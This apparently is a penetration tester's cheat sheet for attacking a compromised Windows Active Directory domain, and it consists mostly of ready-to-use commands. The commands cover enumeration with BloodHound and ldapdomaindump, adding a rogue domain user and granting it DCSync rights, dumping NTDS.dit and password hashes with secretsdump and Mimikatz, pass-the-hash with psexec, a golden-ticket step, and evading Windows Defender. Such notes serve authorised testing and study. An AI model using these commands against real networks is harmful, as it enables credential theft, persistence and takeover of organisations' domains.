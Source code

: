 ```yaml
---
title: POST-COMPROMISE AD ENUMERATION
updated: 2023-11-28 12:21:56Z
created: 2023-09-28 09:43:39Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# POST-COMPROMISE AD ENUMERATION

1.  Step one, **check for Anti-Virus**  
    If Powershell scripts can't be loaded due to antivirus, then load Powershell thru a Meterpreter shell
    
2.  Check for currently logged on users. Look for logged on Administrator  
    `Get-NetGroupMember -User user`
    
3.  Perform OU enumeration
    

**Ldapdomaindump:**  
`sudo ldapdomaindump ldaps://<DC IP> -u 'DOMAIN\user' -p password`

* * *

**Bloodhound**  
1. `sudo neo4j console`  
(use remote interface address, login with **neo4j:neo4j**)
2. `sudo bloodhound`
3. Generate files to import into bloodhound GUI
`sudo bloodhound-python -d DOMAIN.local -u user -p password -ns <DC IP> -c all`  
or
4.Enumerate domain with **SharpHound** or **AzureHound**
`. .\SharpHound.ps1`
`Invoke-Bloodhound` 
import files into bloodhound website
5. Search for owned user and "mark as Owned", double-click and check groups
6. Right-click the domain icon and select "Shortest path to here from Owned	"
7. Look for WriteDACL to domain. The WriteDACL privilege gives a user the ability to add ACLs to an object. This means that we can add a user to this group and give them **DCSync** privileges.
`net user ghost 'pa55word' /add /domain`
`net group <group> ghost /add`
`net localgroup "Remote Management Users" ghost /add`
`. .\powerview.ps1`
run `Bypass-4MSI` to evade windows defender
```
$pass = convertto-securestring 'pa55word' -asplain -force
$cred = new-object system.management.automation.pscredential('<domain>\ghost', $pass)

Add-ObjectACL -PrincipalIdentity <user> -Credential $cred -Rights DCSync
OR
Add-DomainObjectAcl -Credential $Cred -TargetIdentity <domain> -Rights DCSync
```

`secretsdump.py <domain>/ghost@<targetIP>`
`psexec.py administrator@<targetIP> -hashes <hashfrom_secretsdump>`


* * *

**PlumHound**  
`sudo git clone https://github.com/PlumHound/PlumHound.git`  
`sudo pip3 install -r requirments.txt`  
`sudo python3 PlumHound.py --easy -p neo4j_password`  
(make sure both neo4j console and bloodhound are running)

`sudo python3 PlumHound.py -x tasks/default.tasks -p neo4j_password`  
`cd /reports`  
`firefox index.html`

* * *

## List all the SPN's

Look for services that are running and what service accounts are using them  
`setspn -T DOMAIN.local -Q */*`

* * *

## Dumping the NTDS.dit

`secretsdump.py DOMAIN.local/domainadminuser:password@<DC IP> -just-dc-ntlm`

* * *

# Token Impersonation

1.  Check if token impersonatios is availabe for user  
    `whoami /privs`  
    OR  
    `Metrepreter> getprivs`

Check out [Privilege to Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges)

Note: most normal users don't have privileges to impersonation tokens, however service accounts do (move laterally)

# Dump Hashes

## Mimikatz

1.  Launch mimikatz on exploited host, and check privileges are sufficient  
    **mimikatz #** `privilege::debug`  
    Confirm output is **Privilege '20' OK**
2.  Dump the hashes:  
    On older windows machines:  
    `sekurlsa::logonpasswords`  
    `lsadump::sam`
3.  Dump LSA secrets  
    `lsadump::lsa /patch`
4.  Crack the hashes with hashcat  
    `hashcat -m 1000`

### krbtgt Hash

1.  Dump the sid and hash of the **krbtg** account and perform **Golden Ticket** attack  
    `lsadump::lsa /inject /name:krbtgt`
2.  Create a Golden Ticket

### Connect to Domain Controller with Powershell

1.  Connect a powershell as Administrator  
    `sekurlsa::pth /user:Administrator /domain:lab.local /ntlm:<NTLMHash> /run:powershell.exe`
    
2.  Check for kerberos tickets:  
    `klist`
    
3.  Generate a kerberos ticket  
    `net use \\lab.local\`  
    `klist`